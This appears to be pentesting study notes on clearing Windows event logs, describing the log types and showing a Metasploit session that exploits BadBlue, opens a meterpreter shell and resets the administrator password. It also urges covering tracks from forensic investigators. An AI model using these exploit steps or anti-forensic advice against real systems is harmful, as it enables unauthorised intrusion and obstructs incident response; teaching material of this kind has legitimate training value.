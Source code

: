 #### Clear Windows event logs

* The Windows OS stores and catalogs all actions/events performed on the system and stores them in the Windows Event Log.
* Event logs are categorized based on the type of events they store :
  * Application logs : stores application/program events like startups, crashes etc.
  * System logs : stores system events like startups, reboots etc.
  * Security logs : stores security events like password changes, authentication failures etc.
* Event logs can be accessed via the Event Viewer on Windows.
* The event logs are the first stop for any forensic investigator after a compromise has been detected. It is therefore very important to clear your tracks after you are done with your assessment.

```bash
kali@kali> service postgresql start && msfconsole

msf6> workspace -a clear-event
msf6> setg rhosts 10.3.23.158
msf6> use exploit/windows/http/badblue_passthru
msf6> set target 1
msf6> run

meterpreter> shell

C:> net user administrator password_12345
# CTRL+C
```
